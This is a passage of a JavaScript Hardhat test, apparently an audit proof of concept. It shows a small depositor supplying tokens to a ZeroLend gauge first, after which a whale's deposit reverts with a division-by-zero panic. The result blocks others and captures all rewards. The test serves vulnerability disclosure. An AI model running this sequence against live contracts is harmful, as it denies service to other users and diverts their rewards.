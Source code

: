 ```
      1000, // linear duration - 1000 seconds
      0, // cliff duration - 0 seconds
      now + 1000, // unlock date
      true, // penalty -> false
      0
    );

    // stake nft on behalf of the ant
    await vest
      .connect(ant)
      ["safeTransferFrom(address,address,uint256)"](
        ant.address,
        stakingBonus.target,
        1
      );

    // there should now be some voting power for the user to play with
    // ant voting power is ~ 19 ether
    expect(await omniStaking.balanceOf(ant.address)).lessThan(e18 * 20n);
  });

  it("Ant blocks AToken usage and gets all reward in Gauge", async function () {
    let gaugeToken = await aTokenGauge.aToken();
    let atoken = await ethers.getContractAt("AToken", gaugeToken);

    // Mint 1 WETH to ant
    await reserve.connect(owner)["mint(address,uint256)"](ant.address, 1n * e18);
    expect(await reserve.balanceOf(ant.address)).eq(1n * e18);

    // Mint 100 WETH to whale
    await reserve.connect(owner)["mint(address,uint256)"](whale.address, 100n * e18);
    expect(await reserve.balanceOf(whale.address)).eq(100n * e18);
    
    // Distribute reward, 1000 ZeroLend
    await zero.connect(deployer).approve(aTokenGauge.target, 1000n * e18);
    await aTokenGauge.connect(deployer).notifyRewardAmount(zero.target, 1000n * e18);

    // + 1 Hour
    await time.increase(3600);

    // Mint AToken from WETH for ant
    await reserve.connect(ant).approve(pool.target, 1n * e18);
    await pool.connect(ant).supply(reserve.target, 1n * e18, ant.address, 0n);
    expect(await atoken.balanceOf(ant.address)).greaterThan(0);

    // Mint AToken from WETH for whale ...
    // But it reverts due to division by 0
    // https://github.com/zerolend/governance/blob/main/contracts/voter/gauge/GaugeIncentiveController.sol#L48
    await reserve.connect(whale).approve(pool.target, 100n * e18);
    await expect(
      pool.connect(whale).supply(reserve.target, 100n * e18, whale.address, 0n)
    ).to.be.revertedWithPanic(0x12); // division by zero panic
  });
});
```
